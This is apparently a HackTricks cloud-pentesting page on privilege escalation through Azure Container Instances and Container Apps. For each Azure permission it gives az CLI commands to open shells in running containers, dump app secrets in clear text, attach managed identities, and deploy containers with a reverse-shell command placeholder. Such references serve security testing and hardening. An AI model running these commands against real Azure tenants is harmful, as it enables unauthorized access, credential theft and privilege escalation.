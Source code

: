 # Az - Azure Container Instances, Apps & Jobs Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Container Instances, Apps & Jobs

Fore more information check:

{{#ref}}
../az-services/az-container-instances-apps-jobs.md
{{#endref}}

## ACI

### `Microsoft.ContainerInstance/containerGroups/read`, `Microsoft.ContainerInstance/containerGroups/containers/exec/action`

These permissions allow the user to **execute a command** in a running container. This can be used to **escalate privileges** in the container if it has any managed identity attached. Ofc, it's also possible to access the source code and any other sentitive information storeed inside the container.

To get a shell is as simple as:

```bash
az container exec --name <container-name> --resource-group <res-group>  --exec-command '/bin/sh'
```

It's also possible to **read the output** of the container with:

```bash
az container attach --name <container-name> --resource-group <res-group>
```

Or get the logs with:

```bash
az container logs --name <container-name> --resource-group <res-group>
```

### `Microsoft.ContainerInstance/containerGroups/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

These permissions allows to **attach a user managed identity** to a container group. This is very useful to escalate privileges in the container.

To attach a user managed identity to a container group:

```bash
az rest \
  --method PATCH \
  --url "/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerInstance/containerGroups/<container-name>?api-version=2021-09-01" \
  --body '{
    "identity": {
      "type": "UserAssigned",
      "userAssignedIdentities": {
        "/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<user-namaged-identity-name>": {}
      }
    }
  }' \
  --headers "Content-Type=application/json"
```

### `Microsoft.Resources/subscriptions/resourcegroups/read`, `Microsoft.ContainerInstance/containerGroups/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

These permission allows to **create or update a container group** with a **user managed identity** attached to it. This is very useful to escalate privileges in the container.

```bash
az container create \
  --resource-group <res-group> \
  --name nginx2 \
  --image mcr.microsoft.com/oss/nginx/nginx:1.9.15-alpine \
  --assign-identity "/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<user-namaged-identity-name>" \
  --restart-policy OnFailure \
  --os-type Linux \
  --cpu 1 \
  --memory 1.0
```

Moreover, it's also possible to update an existing container group adding for example the **`--command-line` argument** with a reverse shell.


## ACA

### `Microsoft.App/containerApps/read`, `Microsoft.App/managedEnvironments/read`, `microsoft.app/containerapps/revisions/replicas`, `Microsoft.App/containerApps/revisions/read`, `Microsoft.App/containerApps/getAuthToken/action`

These permissions allow the user to **get a shell** in a runningapplication container. This can be used to **escalate privileges** in the container if it has any managed identity attached. Ofc, it's also possible to access the source code and any other sentitive information storeed inside the container.

```bash
az containerapp exec --name <app-name> --resource-group <res-group> --command "sh"
az containerapp debug --name <app-name> --resource-group <res-group>

```

### `Microsoft.App/containerApps/listSecrets/action`

This permission allows to get the **clear text of the secrets** configured inside a container app. Note that secrets can be configured with the clear text of with a link to a key vault (in such case the app will have assigned a managed identity with access over the secrets).

```bash
az containerapp secret list --name <app-name> --resource-group <res-group>
az containerapp secret show --name <app-name> --resource-group <res-group> --secret-name <scret-name>
```

### `Microsoft.App/containerApps/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

These permissions allows to **attach a user managed identity** to a container app. This is very useful to escalate privileges in the container. Executing this action from the az cli also requires the permission `Microsoft.App/containerApps/listSecrets/action`.

To attach a user managed identity to a container group:

```bash
az containerapp identity assign -n <app-name> -g <res-group> --user-assigned myUserIdentityName
```

### `Microsoft.App/containerApps/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`, `Microsoft.App/managedEnvironments/join/action`

These permission allows to **create or update an application container** with a **user managed identity** attached to it. This is very useful to escalate privileges in the container.

```bash
# Get environments
az containerapp env list --resource-group Resource_Group_1

# Create app in a an environment
az containerapp create \
  --name <app-name> \
  --resource-group <res-group> \
  --image mcr.microsoft.com/oss/nginx/nginx:1.9.15-alpine \
  --cpu 1 --memory 1.0 \
  --user-assigned <user-asigned-identity-name> \
  --min-replicas 1 \
  --command "<reserse shell>"
```

> [!TIP]
> Note that with these permisions **other configurations of the app** can be modified which could allow to perform other privesc and post explaoitation attacks depending on the configuration of existing apps.


## Jobs

{{#include ../../../banners/hacktricks-training.md}}


